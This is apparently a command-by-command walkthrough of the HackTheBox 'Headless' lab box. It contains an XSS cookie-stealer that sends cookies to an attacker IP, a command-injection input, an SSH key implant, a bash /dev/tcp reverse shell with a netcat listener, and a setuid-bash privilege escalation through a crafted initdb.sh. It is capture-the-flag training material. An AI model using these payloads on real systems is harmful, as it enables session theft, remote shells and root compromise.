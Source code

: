 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.8
nmap -p 22,5000 -sCV 10.10.11.8
```

## 📂 [Directory Brute Force](HTTP)

```bash
feroxbuster -u http://10.10.11.8:5000
```

## 🔎 Filter Testing / Single Character Fuzzing

```bash
ffuf -u http://10.10.11.8:5000/support \
-d 'fname=0xdf&lname=0xdf&email=0xdf@headless.htb&phone=9999999999&message=FUZZ' \
-w /opt/SecLists/Fuzzing/alphanum-case-extra.txt \
-H 'Content-Type: application/x-www-form-urlencoded' \
-mr 'Your IP address has been flagged'
```

## 🧪 XSS Payload (Cookie Stealer)

```html
<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
```

## 🌐 Host Web Server to Catch Cookie

```bash
python -m http.server 80
```

## 🍪 Manually Set Cookie (in Firefox Dev Tools)

```text
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

## 💥 Command Injection Test (Burp Repeater)

```text
date=2023-09-15; id
```

## 🔐 Generate [SSH](SSH) Key

```bash
ssh-keygen -t ed25519 -f key
```

## 📥 Upload Public Key (in initdb.sh or through command injection)

```bash
echo "public_key_content" > ~/.ssh/authorized_keys
```

## 🔑 SSH into Box

```bash
ssh -i key dvir@10.10.11.8
```

## 📤 Reverse Shell Payload (Base Bash Reverse Shell)

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
```

(Encode `&` as `%26` for POST requests)

## 📞 Listen for Shell

```bash
nc -lnvp 443
```

## 🐚 Upgrade TTY Shell

```bash
script /dev/null -c bash
# Then:
[CTRL+Z]
stty raw -echo; fg
reset
# Type: screen
```

## 🔎 Check Sudo Permissions

```bash
sudo -l
```

## 📜 Priv-Esc Exploit: Create Malicious `initdb.sh`

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 6777 /tmp/0xdf' > initdb.sh
chmod +x initdb.sh
```

## ⚙️ Execute `syscheck`

```bash
sudo syscheck
```

## ⬆️ Root Shell

```bash
/tmp/0xdf -p
```

## 🧼 Clean Up and Get Root Flag

```bash
rm /tmp/0xdf
cat /root/root.txt
```